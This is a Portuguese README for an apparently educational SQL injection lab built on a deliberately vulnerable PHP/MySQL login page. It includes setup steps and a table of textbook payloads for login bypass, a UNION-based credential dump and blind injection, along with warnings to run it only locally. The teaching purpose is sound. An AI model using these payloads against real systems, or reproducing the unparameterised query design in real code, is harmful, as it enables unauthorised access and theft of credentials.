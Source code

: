 # 🚨 SQL Injection Testing Web Page

**Projeto educativo** que demonstra vulnerabilidades de SQL Injection em um sistema de login PHP/MySQL.  

⚠️ **AVISO**: Use APENAS para fins de aprendizado em ambientes controlados. Nunca implante este código em produção.

## 🛠 Tecnologias
- PHP (sem prepared statements)
- MySQL/MariaDB
- HTML/CSS básico

## ⚙️ Como Funciona
O sistema contém vulnerabilidades intencionais que permitem:

```diff
+ Bypass de autenticação
+ Extração de dados sensíveis
+ Execução arbitrária de queries
- Proteções intencionalmente ausentes
```

---
## 🚀 Como Usar

### Pré-requisitos
- XAMPP/WAMP/LAMP instalado
- PHP 7.4+ e MySQL 5.7+

### Instalação
1. Clone o repositório:
```bash
git clone https://github.com/tiago4lex/sqlinjection-testingwebpage.git
```

2. Importe o banco de dados:
```sql
mysql -u root -p < database.sql
```

3. Coloque os arquivos na pasta `htdocs` do seu servidor local
4. Execute o servidor

---
### Testes de SQL Injection

Tente estes exemplos no campo de usuário/senha:

| Tipo de Ataque  | Payload                                                                                | Resultado Esperado            |
| --------------- | -------------------------------------------------------------------------------------- | ----------------------------- |
| Bypass de Login | `admin' --`                                                                            | Acesso como admin sem senha   |
| Dump de Dados   | `' UNION SELECT 1,username,password,4 FROM users --`                                   | Lista todos os usuários       |
| Blind Injection | `admin' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a' --` | Teste caractere por caractere |

---
## 📂 Estrutura do Projeto

```text
/sql-injection-lab
├── index.html          # Página de login
├── login.php           # Lógica de autenticação (vulnerável)
├── dashboard.php       # Área restrita (mostra dados sensíveis)
├── logout.php          # Encerra sessão
├── database.sql        # Script do banco de dados com dados de teste
└── README.md           # Este arquivo
```

## ⚠️ Avisos Importantes

- ❌ Nunca use este código em sistemas reais
- 🔒 Execute apenas em localhost ou ambientes isolados
- 📜 Consulte as leis de segurança digital da sua região antes de testar em qualquer sistema

## ✨ Contribuição

Contribuições são bem-vindas! Abra uma issue para:

- Reportar falsos positivos/negativos
- Sugerir novos vetores de ataque
- Melhorar a interface de testes

## 📚 Recursos Educativos

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [SQL Injection for Beginners](https://www.w3schools.com/sql/sql_injection.asp)
- [MITRE ATT&CK Framework](https://attack.mitre.org/)

---
✍️ **Nota do Autor**:  
Este projeto foi criado para conscientização sobre segurança digital. Use o conhecimento de forma ética!